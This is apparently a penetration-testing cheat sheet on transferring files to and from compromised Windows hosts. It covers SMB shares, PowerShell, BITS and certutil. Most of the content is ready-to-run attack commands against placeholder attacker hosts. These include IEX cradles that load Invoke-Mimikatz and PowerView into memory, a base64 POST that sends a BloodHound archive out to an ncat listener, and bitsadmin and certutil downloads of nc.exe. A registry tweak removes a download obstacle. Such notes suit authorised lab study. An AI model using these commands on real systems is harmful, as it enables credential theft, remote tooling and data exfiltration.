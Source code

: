 # Windows File Transfer

## Smb Server / Mount share

```
smbserver.py -smb2support -username gust -password guest share /root/htb

#Mount 
net use x: \\<IP>\share /user:guest <password>
#Download
cmd /c "copy file.txt X:\"
```



## PowerShell

### PowerShell Downloads

```
#System.Net.WebClient class can be used to download a file over HTTP.
(New-Object System.Net.WebClient).DownloadFile('http://<IP>:PORT/file.EXT',"C:\Outfile.EXT")

#From PowerShell 3.0 Invoke-WebRequest but slower,
#Alias iwr, curl, wget can be used instead of Invoke-WebRequest
Invoke-WebRequest http://<IP>:PORT/file.Ext -OutFile file.Ext

#Execute Payload directly into memory using Invoke-Expression
#Alias iex
IEX (New-Object Net-WebClient).DownloadString('http://<IP>:PORT/Invoke-Mimikatz.ps1')

#IEX also accepts pipeline input
Invoke-WebRequest https://<IP>:PORT/Invoke-Mimikatz.ps1 | iex
```

{% hint style="danger" %}
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`

```
Invoke-WebRequest https://<ip>/PowerView.ps1 | iex
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand


# FIX
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False

# with administrative access to the machine, we can disable Internet Explorer’s First Run customization
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
{% endhint %}

> Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

### PowerShell Uploads

```
#Invoke-WebRequest or Invoke-RestMethod
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/Bloodhound.zip' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:433 -Method POST -Body $b64

#after catching 64data with ncat
echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitadmin

### Download

```
#Background Intelligent Transfer Service
#Can download from HTTP sites and SMB shares
bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe

#PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
Import-Module bitstransfer;Start-BitsTransfer -Source "http://<IP>/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```
start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql        
```

## Certutil

```
#available in all Windows versions
#the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
certutil.exe -verifyctl -split -f http://<IP>/nc.exe
```

